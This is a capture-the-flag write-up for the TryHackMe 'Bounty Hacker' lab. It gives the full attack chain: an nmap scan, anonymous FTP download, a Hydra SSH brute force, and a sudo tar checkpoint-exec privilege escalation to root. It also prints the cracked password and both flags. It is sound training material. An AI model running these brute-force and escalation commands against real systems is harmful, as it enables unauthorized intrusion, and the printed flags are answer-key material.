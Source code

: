 # 🏴‍☠️ TryHackMe - Bounty Hacker

**Platform:** TryHackMe  
**Challenge Type:** Boot2Root  
**Author:** Gage Ayala ([@GageGotya](https://github.com/GageGotya))  
**Date:** April 9, 2025  
**Difficulty:** ⭐ Easy  

---

## 📘 Overview

The **Bounty Hacker** room places you in the role of a digital bounty hunter targeting a cybercriminal syndicate.  
You'll enumerate a server, access files via FTP, crack credentials, and escalate to root using a misconfigured sudo permission.

> 💡 A great beginner-friendly room covering foundational pentesting techniques like recon, password reuse, and privilege escalation.

---

## 🌐 Information Gathering

**Target IP:** _Provided by the room_

### 🔍 Nmap Scan

```bash
nmap -sC -sV <target-ip>

Ports Discovered:

    21/tcp – FTP (vsftpd 3.0.3, anonymous login allowed)

    22/tcp – SSH (OpenSSH 7.2.2)

    80/tcp – HTTP (Apache httpd 2.4.18)

📂 FTP Access

ftp <target-ip>
Name: anonymous

📁 Files Discovered

ftp> ls
locks.txt
task.txt

ftp> get locks.txt
ftp> get task.txt

📄 task.txt

1.) Protect Vicious.  
2.) Plan for Red Eye pickup on the moon.  
-lin

🔑 Username hint: lin
📄 locks.txt

Custom password list found — likely reused credentials.
🔓 Gaining Access
🚀 Brute Force with Hydra

hydra -l lin -P locks.txt ssh://<target-ip>

✅ Password Found: RedDr4gonSynd1cat3
🔐 SSH Access

ssh lin@<target-ip>

🏁 User Flag

cat ~/Desktop/user.txt

Flag:

THM{CR1M3_SyNd1C4T3}

🪜 Privilege Escalation
🔍 Sudo Permissions

sudo -l

User lin may run the following command as root:
(root) /bin/tar

📦 Exploit Using tar

sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

whoami
root

👑 Root Flag

cat /root/root.txt

Flag:

THM{80UN7Y_h4cK3r}

💡 Reflections

    📥 Anonymous FTP access is often overlooked but powerful

    🔁 Password reuse is still a major weakness

    🧪 Always run sudo -l — it's a goldmine

    🧰 Even basic tools like tar can grant root when misconfigured

🧠 Pro Tip

    "When in doubt, poke around, read everything, and always try the simple stuff first."

🗂️ Summary of Key Files
File	Description
locks.txt	Password list used in brute-force
task.txt	Initial objective + username clue
user.txt	First flag found on user's desktop
root.txt	Root flag retrieved after escalation
